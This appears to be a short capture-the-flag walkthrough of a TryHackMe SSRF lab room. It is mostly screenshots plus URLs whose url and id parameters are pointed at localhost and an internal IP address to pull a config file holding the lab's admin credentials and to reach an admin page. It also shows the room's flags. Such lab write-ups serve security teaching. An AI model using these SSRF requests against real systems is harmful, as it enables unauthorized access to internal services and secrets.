 ### 17-Jan-24-Wed

[TryHackMe | SSRF](https://tryhackme.com/room/ssrfhr)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/092a8acf-25e4-4681-9882-5eb2571322e4)

http://hrms.thm/?url=localhost/copyright

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/08029dc1-bc0e-4031-b2d5-298e4bda3546)

http://10.10.72.251/?url=localhost/config

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/9da1f380-e51e-440d-b349-98db307b3e43)

```
<?php
$adminURL = "http://192.168.2.10/admin.php";
$username = "hrmsadmin";
$password = "hrmsadmin@123";
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/cf47edc3-1944-4bf4-a22b-ba85dd42f0b6)

http://hrms.thm/url.php?id=192.168.2.10/admin.php

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/da748588-b87a-4ac0-811d-70df541d2203)

```
THM_{B@$ic_s$rF}
```

http://hrms.thm/profile.php?url=localhost/getInfo.php

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/1b8dbb4d-9f6b-4e63-b2d6-13635f70ac58)

http://hrms.thm/url.php?id=192.168.2.10/bigImage.jpg

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/52580ba8-3134-41b5-9b61-fb45e24d0dff)

```
THM_{$$rF_Cr@$h3D}
```
